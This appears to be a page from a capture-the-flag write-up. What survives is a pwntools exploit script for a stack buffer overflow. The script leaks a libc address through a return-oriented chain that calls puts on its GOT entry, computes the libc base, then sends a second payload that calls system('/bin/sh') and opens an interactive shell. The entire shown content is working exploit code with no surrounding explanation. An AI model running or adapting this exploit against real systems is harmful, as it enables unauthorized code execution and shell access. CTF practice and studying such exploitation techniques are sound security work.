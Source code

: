 ```
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)
# GDB()

### LEAK LIBC ###
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
sla(b'\n', payload)

libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - libc.sym.puts
log.info("Libc base: " + hex(libc.address))

### GET SHELL ###
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)

p.interactive()
```

![alt text](/images/image-12-2.png)